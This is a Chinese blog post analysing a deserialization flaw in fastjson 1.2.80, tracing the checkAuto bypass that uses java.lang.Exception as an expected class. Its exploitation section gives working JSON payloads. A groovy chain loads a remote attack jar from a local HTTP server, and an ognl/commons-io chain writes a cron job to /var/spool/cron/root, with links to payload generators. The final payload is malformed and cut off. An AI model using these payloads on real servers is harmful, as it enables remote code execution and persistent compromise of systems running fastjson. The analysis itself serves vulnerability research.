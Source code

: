 ```yaml
---
layout: post
title: "fastjson 1.2.80 漏洞浅析及利用payload"
date: "2023-08-03T01:06:28.715Z"
---
```

fastjson 1.2.80 漏洞浅析及利用payload
==============================

0x01 说明
=======

在fastjson的1.2.80版本中可以通过将依赖加入到java.lang.Exception 期望类的子类中，绕过checkAuto。

0x02 简析
=======

    {
        "@type":"java.lang.Exception",
        "@type":"org.codehaus.groovy.control.CompilationFailedException",
        "unit":{}
    }
    

直接DefaultJSONParser.class搜checkAuto下断点

![image-20230731210147425](https://img2023.cnblogs.com/blog/1822325/202308/1822325-20230802194058358-1605836628.png)

步入到com/alibaba/fastjson/parser/ParserConfig.java

![image-20230801143800548](https://img2023.cnblogs.com/blog/1822325/202308/1822325-20230802194058517-232811119.png)

使用TypeUtils.getClassFromMapping从缓存中读取java.lang.Exception

![image-20230731220017287](https://img2023.cnblogs.com/blog/1822325/202308/1822325-20230802194058471-327127420.png)

跳到了checkAuto

![image-20230801143913556](https://img2023.cnblogs.com/blog/1822325/202308/1822325-20230802194058501-328890683.png)

往下走，获取ObjectDeserializer对象，因为是异常类，获取到的是ThrowableDeserializer反序列化器

![image-20230801144010902](https://img2023.cnblogs.com/blog/1822325/202308/1822325-20230802194058462-29468467.png)

继续步入，跳转到com/alibaba/fastjson/parser/ParserConfig.java

![image-20230801144609065](https://img2023.cnblogs.com/blog/1822325/202308/1822325-20230802194058465-990641619.png)

匹配条件![image-20230801160412905](https://img2023.cnblogs.com/blog/1822325/202308/1822325-20230802194058476-987297021.png)

此时clazz为null

![image-20230801160614089](https://img2023.cnblogs.com/blog/1822325/202308/1822325-20230802194058491-1224111940.png)

匹配下个

![image-20230801160724299](https://img2023.cnblogs.com/blog/1822325/202308/1822325-20230802194058357-2080109344.png)步入com/alibaba/fastjson/util/TypeUtils.java

Mappings.put()将类添加到map中

但是cache不为真

![image-20230801161151268](https://img2023.cnblogs.com/blog/1822325/202308/1822325-20230802194058494-252957700.png)

匹配下个

![image-20230801161245810](https://img2023.cnblogs.com/blog/1822325/202308/1822325-20230802194058481-1283528518.png)

此时expectClass

![image-20230801161437063](https://img2023.cnblogs.com/blog/1822325/202308/1822325-20230802194058472-1272476926.png)

expectClass非空使用addMapping将clazz类加入缓存

![image-20230801170509298](https://img2023.cnblogs.com/blog/1822325/202308/1822325-20230802194058400-548968659.png)

![image-20230801145908735](https://img2023.cnblogs.com/blog/1822325/202308/1822325-20230802194058467-805358367.png)

每次处理一层json都会putDeserializer，可以向deserializers添加新数据。

![image-20230801172351369](https://img2023.cnblogs.com/blog/1822325/202308/1822325-20230802194058492-1923166948.png)

第三次处理会加上org.codehaus.groovy.control.ProcessingUnit

![image-20230801173833837](https://img2023.cnblogs.com/blog/1822325/202308/1822325-20230802194058483-1513780681.png)

0x03 利用
=======

1、groovy链
---------

需要存在groovy链，这里测试版本使用如下版本

            <dependency>
                <groupId>org.codehaus.groovy</groupId>
                <artifactId>groovy-all</artifactId>
                <version>3.0.12</version>
            </dependency>
    

jar包用的

    https://github.com/Lonely-night/fastjsonVul
    

将CompilationFailedException作为子类，java.lang.Exception作为期望类可绕过检测

    {
        "@type":"java.lang.Exception",
        "@type":"org.codehaus.groovy.control.CompilationFailedException",
        "unit":{}
    }
    

发利用包

    {
      "@type":"org.codehaus.groovy.control.ProcessingUnit",
      "@type":"org.codehaus.groovy.tools.javac.JavaStubCompilationUnit",
      "config":{
        "@type": "org.codehaus.groovy.control.CompilerConfiguration",
        "classpathList":["http://127.0.0.1:8081/attack-1.jar"]
      },
      "gcl":null,
      "destDir": "/tmp"
    }
    

![image-20230801174215684](https://img2023.cnblogs.com/blog/1822325/202308/1822325-20230802194058424-1849571916.png)

2、ognl & io & aspectj & commons-codec
-------------------------------------

payload可通过大哥写的生成

[https://github.com/kezibei/fastjson\_payload/blob/main/src/test/Fastjson26\_ognl\_io\_write\_4.java](https://github.com/kezibei/fastjson_payload/blob/main/src/test/Fastjson26_ognl_io_write_4.java)

这里payload为往/var/spool/cron/root目录写入计划任务，注意只能往存在目录下写文件

    1.2.73-1.2.80 ognl-3.2.21 commons-io-2.2 aspectjtools-1.9.6 commons-codec-1.6
    写入复杂文件结构，文件需要大于8kb
    

    {
    	"su14": {
    		"@type": "java.lang.Exception",
    		"@type": "ognl.OgnlException"
    	},
    	"su15": {
    		"@type": "java.lang.Class",
    		"val": {
    			"@type": "com.alibaba.fastjson.JSONObject",
    			{
    				"@type": "java.lang.String"
    				"@type": "ognl.OgnlException",
    				"_evaluation": ""
    			}
    		},
    		"su16": {
    			"@type": "ognl.Evaluation",
    			"node": {
    				"@type": "ognl.ASTMethod",
    				"p": {
    					"@type": "ognl.OgnlParser",
    					"stream": {
      "@type":"org.apache.commons.io.input.BOMInputStream",
      "delegate":{
        "@type":"org.apache.commons.io.input.TeeInputStream",
        "input":{
          "@type": "org.apache.commons.codec.binary.Base64InputStream",
          "in":{
            "@type":"org.apache.commons.io.input.CharSequenceInputStream",
            "charset":"utf-8",
            "bufferSize": 1024,
            "s":{"@type":"java.lang.String""文件baes64"
          },
          "doEncode":false,
          "lineLength":1024,
          "lineSeparator":"5ZWKCg==",
          "decodingPolicy":0
        },
        "branch":{
          "@type":"org.eclipse.core.internal.localstore.SafeFileOutputStream",
          "targetPath":"/var/spool/cron/root"
        },
        "closeBranch":true
      },
      "include":true,
      "boms":[{
                      "@type": "org.apache.commons.io.ByteOrderMark",
                      "charsetName": "UTF-8",
                      "bytes":[85, 48, 104...文件bytes]
                    }],
    }
    				}
    			}
    		},
    		"su17": {
    			"$ref": "$.su16.node.p.stream"
    		},
    		"su18": {
    			"$ref": "$.su17.bOM.bytes"
    		}
    	}